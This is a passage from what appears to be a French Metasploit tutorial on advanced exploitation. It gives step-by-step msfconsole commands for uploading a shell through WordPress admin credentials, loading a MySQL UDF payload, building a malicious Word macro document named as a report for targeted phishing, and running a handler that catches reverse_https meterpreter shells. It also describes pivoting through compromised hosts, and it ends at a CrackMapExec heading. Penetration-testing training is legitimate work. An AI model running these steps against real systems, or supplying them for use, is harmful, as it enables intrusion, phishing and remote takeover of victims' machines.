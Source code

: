 > **COMMENT ?**  
> La commande `route add` est particulièrement utile pour le pivoting réseau. Elle permet d'accéder à des réseaux internes via une machine compromise, ouvrant ainsi la voie à l'exploitation de machines non directement accessibles.

## Techniques d'exploitation avancées

### Exploitation de services web

```
# Exploitation d'une vulnérabilité dans une application web
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 192.168.1.101
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD password123
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress/
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit
```

### Exploitation de bases de données

```
# Exploitation d'une instance MySQL
msf6 > use exploit/linux/mysql/mysql_udf_payload
msf6 exploit(linux/mysql/mysql_udf_payload) > set RHOSTS 192.168.1.102
msf6 exploit(linux/mysql/mysql_udf_payload) > set USERNAME root
msf6 exploit(linux/mysql/mysql_udf_payload) > set PASSWORD ""
msf6 exploit(linux/mysql/mysql_udf_payload) > exploit
```

### Exploitation via phishing ciblé

```
# Création d'un document malveillant
msf6 > use exploit/windows/fileformat/office_word_macro
msf6 exploit(windows/fileformat/office_word_macro) > set FILENAME rapport.doc
msf6 exploit(windows/fileformat/office_word_macro) > exploit

# Configuration d'un handler pour recevoir les connexions
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST 192.168.1.50
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > exploit -j
```

## Exploitation avec des outils externes

### Intégration avec CrackMapExec

CrackMapExec est un outil puissant pour l'exploitation de réseaux Windows.
